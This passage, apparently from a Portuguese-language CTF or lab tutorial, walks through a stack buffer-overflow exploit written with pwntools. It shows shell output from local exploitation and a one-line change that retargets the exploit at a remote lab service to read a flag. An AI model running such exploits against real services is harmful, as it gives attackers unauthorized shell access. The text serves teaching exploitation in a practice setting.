Quando executamos o *script* como está, teremos acesso à shell que foi criada
pela execução do nosso *shellcode*, repare:

```
root@mnsec-pwn-d998c673219144:~# ./exploit.py 
[+] Starting local process './binexp_bof_01': pid 920
[+] buffer: 0x7fff8c33dff0
[*] Switching to interactive mode
[*] Now send data to buffer: 
$ pwd
/root
$ exit
[*] Got EOF while reading in interactive
```

Massa demais, bicho! Conseguimos explorar o programa e fazer ele executar uma
shell!!

### Exploração remota

Mas veja, exploramos o binário só em nossa própria máquina, que já temos acesso
a tudo e tals. Enquanto isso, a máquina alvo, que executa esse programa como um
serviço disponível na rede, está lá, intacta. Vamos arrumar o `exploit.sh` para
explorar a instância na máquina remota, que tal?

Como utilizamos o `pwntools` para lidar com a interação com o programa em
relação à entrada e saída de dados, apenas precisamos modificar o *script* para
o `pwntools` entender que não se trata mais de um binário local mas sim um
serviço remoto. Para fazer isso é bem simples, veja:

```python
p = remote('192.168.0.20', 1337)
```

É só isso mesmo: informar que é uma conexão remota passando como parâmetro o
endereço da máquina e a porta para conexão.

Com essa modificação, veja como fica a exploração remotamente:

```
root@mnsec-pwn-d998c673219144:~# ./exploit.py 
[+] Opening connection to 192.168.0.20 on port 1337: Done
[+] Opening connection to 192.168.0.20 on port 1337: Done
[+] buffer: 0x7ffd74efb760
[*] Switching to interactive mode
[*] Now send data to buffer: 
$ ls
[+] Opening connection to 192.168.0.20 on port 1337: Done
[+] buffer: 0x7ffd74efb760
[*] Switching to interactive mode
[*] Now send data to buffer: 
$ ls
binexp_bof_01
flag
$ cat flag
hackinsdn{binexp_flag_temp}
```
